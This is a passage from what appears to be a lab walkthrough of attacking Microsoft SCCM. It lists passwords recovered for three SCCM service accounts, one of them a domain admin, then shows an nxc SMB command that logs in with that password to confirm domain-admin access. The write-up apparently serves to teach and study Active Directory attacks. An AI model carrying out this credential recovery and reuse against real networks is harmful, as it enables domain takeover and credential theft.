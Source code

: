 ![sccm_decipher_password.png](/assets/blog/SCCM/sccm_uncipher_password.png)

- And we get the result for the three users found, and there is a DA user \o/

```
sccm-client-push:superman
sccm-naa:123456789
sccm-account-da:SCCM_D@-ftw_
```

- Let's verify the DA account :

```bash
nxc smb 192.168.33.10 -u sccm-account-da -p 'SCCM_D@-ftw_' -d SCCM.lab
```

![pwned.png](/assets/blog/SCCM/pwned.png)

- And we are Domain Admin :)